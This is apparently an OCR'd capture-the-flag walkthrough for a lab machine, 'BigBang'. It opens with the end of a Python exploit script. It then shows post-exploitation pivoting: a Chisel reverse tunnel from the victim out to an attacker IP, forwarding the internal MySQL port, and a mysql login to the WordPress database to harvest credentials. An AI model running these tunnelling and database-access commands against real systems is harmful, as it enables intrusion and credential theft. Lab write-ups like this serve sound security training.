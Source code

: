 ```python
    return size.encode() + b"\n" + data + b"\n"


@dataclass
class Region:
    """A memory region."""

    start: int
    stop: int
    permissions: str
    path: str

    @property
    def size(self) -> int:
        return self.stop - self.start


Exploit()

```

# BigBang CTF Walkthrough

## Getting a Shell

![/assets/images/Pasted%20image%2020250131020128.png]

Once we got the shell, we already know what to do. Let's perform some port forwarding to gain access to the MySQL database and retrieve user credentials.

### Port Forwarding MySQL DB

The IP is `172.17.0.1`, and the port is `3306`.

We can use **Chisel** to achieve this. In our attack box:

```bash
/chisel server -p 5678 --reverse
```

In the victim server:

```bash
./chisel client 10.10.14.91:5678 R:3306:172.17.0.1:3306
```

![/assets/images/Pasted%20image%2020250131020833.png]

Now we can access the MySQL database from our local machine:

```bash
mysql -D 'wordpress' -u 'wp_user' -h 172.17.0.1 --skip-ssl -p
```
